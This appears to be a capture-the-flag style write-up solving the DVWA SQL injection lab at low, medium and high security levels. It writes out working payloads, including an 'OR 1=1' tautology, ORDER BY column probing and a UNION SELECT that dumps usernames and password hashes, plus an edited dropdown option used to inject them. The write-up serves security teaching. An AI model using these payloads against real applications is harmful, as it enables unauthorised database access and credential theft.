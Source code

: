 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> ### Objective
> There are 5 users in the database, with id's from 1 to 5. Your mission... to steal their passwords via SQLi.

## Security Level: Low
> The SQL query uses RAW input that is directly controlled by the attacker. All they need to-do is escape the query and then they are able to execute any SQL query they wish.
> Spoiler: ?id=a' UNION SELECT "text1","text2";-- -&Submit=Submit.

![1](https://github.com/Knign/Write-ups/assets/110326359/e9488e50-a295-4445-92e8-ee26e477daaa)

- We can provide a user ID `1` to the application.

![2](https://github.com/Knign/Write-ups/assets/110326359/6812920c-1919-4b9a-8f8f-6a8997d27876)

- So the user input is inserted in the following query:
```
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```
- Let's check the source code to see how the application behaves.

![3](https://github.com/Knign/Write-ups/assets/110326359/1c4a41e0-1808-41ca-abb9-32883f28294a)

- As we can see, the user input is not sanitized in any way. This is what leaves an application vulnerable to SQLi.
- Let's provide the following input:
```
1' OR '1'='1
```
- Our input causes the application to create the following query:
```
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1';
```
- As 1 is always equal to 1,  all the users first and last name will be output to the page regardless of whether their id is 1 or not.

![4](https://github.com/Knign/Write-ups/assets/110326359/1a0694a8-b898-4d7e-b214-a034519825fc)

- Our job in not done though, we need to find the passwords for the users using a `UNION` attack.
- For a `UNION` query to work, two key requirements must be met:
	- The individual queries must return the same number of columns.
	- The data types in each column must be compatible between the individual queries.
- We can find the number of columns using the following queries provided by Portswigger one by one:
```
' ORDER BY 1#
' ORDER BY 2# 
' ORDER BY 3#
```
- We will be able to notice that the first two queries do not return any result but the third query returns a blank screen.
- This means that there are two columns in the current table.
- Let's create our final payload:
```
' UNION SELECT user, password FROM users#
```

![5](https://github.com/Knign/Write-ups/assets/110326359/755567c6-553e-4b17-9fa7-ec061bb1a41b)

&nbsp;


## Security Level: Medium
> The medium level uses a form of SQL injection protection, with the function of "[mysql_real_escape_string()](https://secure.php.net/manual/en/function.mysql-real-escape-string.php)". However due to the SQL query not having quotes around the parameter, this will not fully protect the query from being altered.
> The text box has been replaced with a pre-defined dropdown list and uses POST to submit the form.
> Spoiler: ?id=a UNION SELECT 1,2;-- -&Submit=Submit.

![6](https://github.com/Knign/Write-ups/assets/110326359/e39d6f7b-43ec-4911-b9cc-b66ffc775028)

- Let's first check the source code.

![7](https://github.com/Knign/Write-ups/assets/110326359/c97287bc-87c5-4aef-b115-a098d7bd625a)

- In this level our input is not inserted into quotes.
- We can inspect the code for more information.

![8](https://github.com/Knign/Write-ups/assets/110326359/f34f3bc2-2d37-4ead-93be-d7e5c7b3a154)

- Let's change the `<option>` tag to the following value:
```
<option value="1 OR 1=1">1 OR 1=1</option>
```

![9](https://github.com/Knign/Write-ups/assets/110326359/042d2955-9edb-466d-b046-f32da4b3dc19)

- In order to retrieve the passwords, we can set the `<option>` tag to the following value:
```
<option value="1 UNION SELECT user, password FROM users#">1 UNION SELECT user, password FROM users#</option>
```

![10](https://github.com/Knign/Write-ups/assets/110326359/d218c485-00c4-4f96-bff1-f06d228f94d5)

&nbsp;


## Security Level: High
> This is very similar to the low level, however this time the attacker is inputting the value in a different manner. The input values are being transferred to the vulnerable query via session variables using another page, rather than a direct GET request.
> Spoiler: ID: a' UNION SELECT "text1","text2";-- -&Submit=Submit.

![11](https://github.com/Knign/Write-ups/assets/110326359/bdc9100f-4781-4b24-a326-4459cff1fa83)

- Let's check the source code.

![12](https://github.com/Knign/Write-ups/assets/110326359/6b80b238-038e-4d03-aed2-80ab0cd2a2f3)

- The application treats our input the same way it did in the low security level.
- That means the same payload as the low security level should work in this level.
```
' UNION SELECT user, password FROM users#
```

![13](https://github.com/Knign/Write-ups/assets/110326359/2d077567-4ce3-4bb9-a7d6-377d398ed312)
